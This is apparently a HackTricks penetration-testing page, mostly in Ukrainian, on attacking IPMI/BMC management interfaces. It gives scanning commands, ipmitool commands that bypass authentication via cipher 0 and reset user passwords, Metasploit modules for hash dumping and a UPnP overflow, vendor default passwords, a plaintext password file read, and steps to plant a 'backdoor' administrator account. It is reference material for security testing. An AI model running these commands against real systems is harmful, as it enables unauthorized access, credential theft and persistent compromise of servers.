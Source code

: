 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Основна інформація

### **Огляд IPMI**

**[Інтерфейс управління платформою (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** пропонує стандартизований підхід до віддаленого управління та моніторингу комп'ютерних систем, незалежно від операційної системи або стану живлення. Ця технологія дозволяє системним адміністраторам віддалено керувати системами, навіть коли вони вимкнені або не відповідають, і особливо корисна для:

- Конфігурацій перед завантаженням ОС
- Управління вимкненням
- Відновлення після збоїв системи

IPMI здатен моніторити температури, напруги, швидкості вентиляторів та блоки живлення, а також надавати інформацію про інвентаризацію, переглядати апаратні журнали та надсилати сповіщення через SNMP. Для його роботи необхідні джерело живлення та LAN-з'єднання.

З моменту свого впровадження компанією Intel у 1998 році, IPMI підтримується численними постачальниками, що покращує можливості віддаленого управління, особливо з підтримкою версії 2.0 для серійного з'єднання через LAN. Ключові компоненти включають:

- **Контролер управління материнською платою (BMC):** Основний мікроконтролер для операцій IPMI.
- **Комунікаційні шини та інтерфейси:** Для внутрішньої та зовнішньої комунікації, включаючи ICMB, IPMB та різні інтерфейси для локальних та мережевих з'єднань.
- **Пам'ять IPMI:** Для зберігання журналів та даних.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**Порт за замовчуванням**: 623/UDP/TCP (Зазвичай працює на UDP, але також може працювати на TCP)

## Перерахування

### Виявлення
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
Ви можете **виявити** **версію** за допомогою:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI Вразливості

У сфері IPMI 2.0 значна вразливість була виявлена Даном Фармером, що відкриває вразливість через **cipher type 0**. Ця вразливість, детально задокументована в [дослідженні Дана Фармера](http://fish2.com/ipmi/cipherzero.html), дозволяє несанкціонований доступ з будь-яким паролем, якщо цільовим є дійсний користувач. Ця слабкість була виявлена в різних BMC від виробників, таких як HP, Dell та Supermicro, що свідчить про поширену проблему в усіх реалізаціях IPMI 2.0.

### **Обхід автентифікації IPMI через Cipher 0**

Щоб виявити цю вразливість, можна використовувати наступний допоміжний сканер Metasploit:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
Експлуатація цього недоліку можлива за допомогою `ipmitool`, як показано нижче, що дозволяє переглядати та змінювати паролі користувачів:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP Аутентифікація Віддалене Отримання Хешів Паролів**

Ця вразливість дозволяє отримувати посолені хешовані паролі (MD5 та SHA1) для будь-якого існуючого імені користувача. Щоб протестувати цю вразливість, Metasploit пропонує модуль:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI Анонімна Аутентифікація**

За замовчуванням у багатьох BMC дозволяється "анонімний" доступ, що характеризується порожніми рядками імені користувача та пароля. Цю конфігурацію можна використати для скидання паролів іменованих облікових записів користувачів за допомогою `ipmitool`:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI Паролі у відкритому вигляді**

Критичний вибір дизайну в IPMI 2.0 вимагає зберігання паролів у відкритому вигляді в BMC для цілей аутентифікації. Зберігання цих паролів компанією Supermicro в таких місцях, як `/nv/PSBlock` або `/nv/PSStore`, викликає значні проблеми з безпекою:
```bash
cat /nv/PSBlock
```
### **Уразливість Supermicro IPMI UPnP**

Включення Supermicro прослуховувача UPnP SSDP у своєму прошивці IPMI, зокрема на UDP порту 1900, створює серйозний ризик безпеки. Уразливості в Intel SDK для UPnP Devices версії 1.3.1, як детально описано в [розкритті Rapid7](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play), дозволяють отримати доступ до BMC з правами root:
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### Brute Force

**HP випадковим чином генерує стандартний пароль** для свого **Integrated Lights Out (iLO)** продукту під час виробництва. Ця практика контрастує з іншими виробниками, які зазвичай використовують **статичні стандартні облікові дані**. Підсумок стандартних імен користувачів та паролів для різних продуктів наведено нижче:

- **HP Integrated Lights Out (iLO)** використовує **фабрично випадкову 8-символьну строку** як свій стандартний пароль, демонструючи вищий рівень безпеки.
- Продукти, такі як **iDRAC від Dell, IMM від IBM** та **Інтегрований контролер віддаленого управління Fujitsu**, використовують легко вгадувані паролі, такі як "calvin", "PASSW0RD" (з нулем) та "admin" відповідно.
- Аналогічно, **Supermicro IPMI (2.0), Oracle/Sun ILOM** та **ASUS iKVM BMC** також використовують прості стандартні облікові дані, з "ADMIN", "changeme" та "admin" як їх паролі.


## Accessing the Host via BMC

Адміністративний доступ до Контролера управління материнською платою (BMC) відкриває різні шляхи для доступу до операційної системи хоста. Простий підхід полягає в експлуатації функціональності KVM BMC. Це можна зробити, перезавантаживши хост до кореневого оболонки через GRUB (використовуючи `init=/bin/sh`) або завантажившись з віртуального CD-ROM, налаштованого як диск відновлення. Такі методи дозволяють безпосередньо маніпулювати диском хоста, включаючи вставку бекдорів, витяг даних або будь-які необхідні дії для оцінки безпеки. Однак це вимагає перезавантаження хоста, що є значним недоліком. Без перезавантаження доступ до працюючого хоста є більш складним і варіюється в залежності від конфігурації хоста. Якщо фізична або серійна консолі хоста залишаються увійденими, їх можна легко захопити через функціональність KVM або serial-over-LAN (sol) BMC за допомогою `ipmitool`. Дослідження експлуатації спільних апаратних ресурсів, таких як шина i2c та Super I/O чип, є областю, що потребує подальшого вивчення.

## Introducing Backdoors into BMC from the Host

Після компрометації хоста, оснащеного BMC, **локальний інтерфейс BMC можна використовувати для вставки бекдор-облікового запису**, створюючи тривалу присутність на сервері. Ця атака вимагає наявності **`ipmitool`** на скомпрометованому хості та активації підтримки драйвера BMC. Наступні команди ілюструють, як новий обліковий запис користувача може бути вставлений у BMC, використовуючи локальний інтерфейс хоста, що обходить необхідність аутентифікації. Ця техніка застосовна до широкого спектру операційних систем, включаючи Linux, Windows, BSD та навіть DOS.
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `port:623`

## References

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
